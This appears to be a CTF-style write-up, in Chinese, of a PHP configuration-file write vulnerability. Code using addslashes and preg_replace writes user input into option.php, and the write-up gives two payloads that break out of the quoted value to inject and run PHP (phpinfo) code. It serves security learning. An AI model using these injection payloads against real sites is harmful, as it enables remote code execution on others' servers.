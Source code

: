 # Challenge
index.php
```php
<?php
$str = addslashes($_GET['option']);
$file = file_get_contents('xxxxx/option.php');
$file = preg_replace('|\$option=\'.*\';|', "\$option='$str';", $file);
file_put_contents('xxxxx/option.php', $file);
```
xxxxx/option.php
```php
$option='test';
```
# Solution
流程如下：
1. 对传入的option参数进行addslashes，比如有单引号`'`，会变成`\'`
2. 通过正则匹配xxxxx/option.php中的`$option='xxx';`，将xxx的内容替换为经第一步处理的值
3. 替换完成，将其写入xxxxx/option.php。

场景： 用于写入配置文件等。

## 法一
先访问：
```
?option=aaa';%0aphpinfo();//
```
经过addslashes后，$str值为 `aaa\';%0aphpinfo();//`

进行正则匹配并写入文件，xxxxx/option.php的内容变为:
```php
<?php 
$option='aaa\';
phpinfo();//';
?>
```

再访问：
```
?option=xxx
```
正则匹配时，会将两个单引号里的内容即 `aaa\` ，替换为 `xxx`，此时xxxxx/option.php的内容变为
```php 
<?php
$option='xxx';
phpinfo();//';
?>
```

访问：/xxxxx/option.php

## 法二
访问：
```
?option=aaa\';phpinfo();//
```
经过addslashes后，$str为 `aaa\\\';phpinfo();//`

经过preg_replace正则匹配后，对`\`做了转义处理,xxxxx/option.php的内容变为：
```
<?php 
$option='aaa\\';phpinfo();//';
?>
```

# Refference 
+ p神的小秘圈
+ [l3m0n：小密圈专题(1)-配置文件写入问题](http://www.cnblogs.com/iamstudy/articles/config_file_write_vue.html)
